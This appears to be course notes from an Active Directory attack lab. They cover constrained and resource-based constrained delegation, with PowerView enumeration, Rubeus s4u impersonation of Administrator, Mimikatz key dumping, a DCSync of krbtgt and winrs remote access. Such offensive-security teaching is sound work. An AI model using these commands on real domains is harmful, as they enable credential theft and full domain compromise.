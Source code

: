 # Constrained Delegation

Constrained delegation allows a service to impersonate a user, but only to **specific services on specific computers** as defined in its configuration.

#### Example Scenario

1. A user (e.g., Joe) authenticates to a web application using a method that does not support Kerberos.
2. The web application, running under the `websvc` account, requests a TGS for Joe using **S4U2Self**.
3. The KDC verifies the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` flag on the `websvc` account and that Joe is not restricted from delegation.
4. If allowed, it returns a forwardable TGS for Joe.
5. The web service now uses **S4U2Proxy** to request access to a service like `CIFS/dcorp-mssql.dollarcorp.moneycorp.local`.
6. The KDC checks if this SPN is listed in `msDS-AllowedToDelegateTo` for `websvc`. If yes, it returns the TGS.
7. The web service uses the TGS to access the target service as Joe.

## Constrained Delegation with Protocol Transiction

If an attacker gains access to the `websvc` account, they can impersonate **any user** to access **any service** listed in `msDS-AllowedToDelegateTo`.

#### Enumeration

To find accounts with constrained delegation enabled:

*   **PowerView**:

    ```powershell
    Get-DomainUser -TrustedToAuth
    Get-DomainComputer -TrustedToAuth
    ```
*   **ActiveDirectory module**:

    ```powershell
    Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
    ```

#### Abuse via Rubeus

Request TGT and TGS in one step using `Rubeus`:

```powershell
Rubeus.exe s4u /user:websvc `
/aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 `
/impersonateuser:Administrator `
/msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt
```

Then access:

```powershell
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

**Note:** The SPN in the TGS is in **clear-text**, making it possible to target sensitive services even when delegation was configured for seemingly low-risk systems.

Alternate scenario (with `/altservice` parameter):

```powershell
Rubeus.exe s4u /user:dcorp-adminsrv$ `
/aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 `
/impersonateuser:Administrator `
/msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL `
/altservice:ldap /ptt
```

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt"
```

### Labs

* [Learning Object 16 lab](../../lab/16-lo1-6.md)

## Resource-Based Constrained Delegation (RBCD)

RBCD shifts delegation control from the _front-end service_ (e.g., web server) to the _target resource_ (e.g., database server).\
This is managed through the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, visible as `PrincipalsAllowedToDelegateToAccount`, which is stored on the resource.\
Unlike standard delegation types, **SeEnableDelegation** rights are not required. Any object with write permissions on the resource can configure RBCD.

To exploit RBCD effectively, you need:

1. **Write permissions** over the target resource.
2. **Control over an object with an SPN**, such as:
   * Local admin access to a domain-joined machine.
   * Ability to join a machine to the domain (default `ms-DS-MachineAccountQuota` = 10 for all users).

***

#### Enumeration and Exploitation

Identify write permissions with:

```powershell
Find-InterestingDomainACL | ? { $_.IdentityReferenceName -match 'ciadmin' }
```

Set RBCD using the ActiveDirectory module:

```powershell
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```

Extract AES keys for the impersonating machine:

```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

Use the AES key with Rubeus to impersonate:

```powershell
Rubeus.exe s4u /user:dcorp-student1$ `
/aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 `
/msdsspn:http/dcorp-mgmt `
/impersonateuser:administrator /ptt
```

Then access the machine:

```powershell
winrs -r:dcorp-mgmt cmd.exe
```

### Labs

* [Learning Object 17 lab](../../lab/17-lo1-7.md)
